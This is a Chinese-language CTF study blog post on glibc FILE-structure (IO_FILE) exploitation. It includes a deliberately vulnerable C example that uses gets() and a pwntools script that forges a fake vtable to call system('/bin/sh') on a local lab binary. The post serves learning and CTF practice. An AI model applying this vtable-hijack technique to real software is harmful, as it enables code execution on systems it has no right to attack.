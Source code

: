 ```yaml
---
title: IO_FILE学习笔记(非知识点总结)
date: 2022-9-15 20:32:00 +0800
author: sirius
categories: [CTF, pwn]
tags: [CTF, pwn]
math: false
typora-root-url: ../../SiriusHsh.github.io
typora-copy-images-to: ../assets/img/2022
---
```




首先跟着angelboy [这个视频](https://www.youtube.com/watch?v=_ZnnGZygnzE) 的节奏，学习一下文件利用的基本操作，ppt里有的内容全都不写了，直接看ppt吧。只记录一下学习过程中遇到的问题。



# 0x01  _lock的offset获取

`_lock`的offset如何获取？

![image-20220922222338848](/assets/img/2022/image-20220922222338848.png)

 `p &(*(struct _IO_FILE_plus *) buf_addr)->file->_lock`



# 0x02 如何call [rax+0x10]?

PPT里的example.c

```c
#include<stdio.h>
#include<stdlib.h>

char buf[0x100] = {0};
FILE *fp;
int main(){
   fp = fopen("./file.txt", "rw");
   gets(buf);
   fclose(fp);
}
```

![image-20220922215726442](/assets/img/2022/image-20220922215726442.png)

![image-20220922215819660](/assets/img/2022/image-20220922215819660.png)

首先是这一部分，我在libc2.23下实际跑了一下，并非图上所示的获得了一次`call [rax+0x10]`的机会

实际运行结果如下:

![image-20220922220342110](/assets/img/2022/image-20220922220342110.png)

会进入free

实际运行流程图：

**贴一个流程图**





那么如何获得`call [rax+0x10]`呢

答案是原先payload中开头padding部分 `"a"*0x88` 改成 `"a".ljust(0x88, "\x00")`

![image-20220922220510885](/assets/img/2022/image-20220922220510885.png)

分析：

![image-20220922221007513](/assets/img/2022/image-20220922221007513.png)

所以关键是`_flags`这个值，会影响进不进`_IO_file_close_it`



然后payload是`'/bin/sh'.ljust(0x88, '\x00')`时，会获得一次`call [rax+0x88]`，这个是`vtable->_close`

![image-20220922223233730](/assets/img/2022/image-20220922223233730.png)

![image-20220922223525729](/assets/img/2022/image-20220922223525729.png)

![image-20220922223611848](/assets/img/2022/image-20220922223611848.png)





这个example.c的wp

```python
from pwn import *


r = process('./baby_file')

context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def debug(cmd=''):
    gdb.attach(r, cmd)
    pause()

# debug("bcall fclose")
#fp=0x601160 
buf=0x601060  
fake_vtable = buf+0x110
p = '/bin/sh\x00'.ljust(0x88, '\x00') + p64(buf+0x500) #_lock
p = p.ljust(0xd8, '\x00') + p64(fake_vtable) #vtable offset 0xd8
p = p.ljust(0x100, '\x00') + p64(buf)
p = p.ljust(0x110+0x88, '\x00') + p64(0x7ffff7a523a0) #system_addr, PIE & ASLR off, only for debug   

r.sendline(p)

r.interactive()
```



# 0x03 pwnable.tw上的seethefile wp

好像和视频里的练习题是一样的

以后做一下








